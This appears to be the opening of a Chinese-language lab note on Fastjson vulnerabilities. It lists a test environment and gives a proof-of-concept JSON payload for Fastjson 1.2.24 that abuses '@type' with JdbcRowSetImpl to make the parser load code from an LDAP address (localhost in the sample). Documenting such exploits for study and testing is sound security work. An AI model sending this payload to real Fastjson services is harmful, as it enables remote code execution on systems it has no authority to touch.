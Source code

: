 # Fastjson各版本漏洞

环境：

- Java-chains工具
- jdk1.8.0_65

## Fastjson 1，2，24

工具配置：

![image-20250922031033740](./images/Fastjson漏洞2/image-20250922031033740.png)

poc

```java
{  
  "@type":"com.sun.rowset.JdbcRowSetImpl",  
  "dataSourceName":"ldap://127.0.0.1:1234/Exploit",  
  "autoCommit":true  
}
```

本地测试
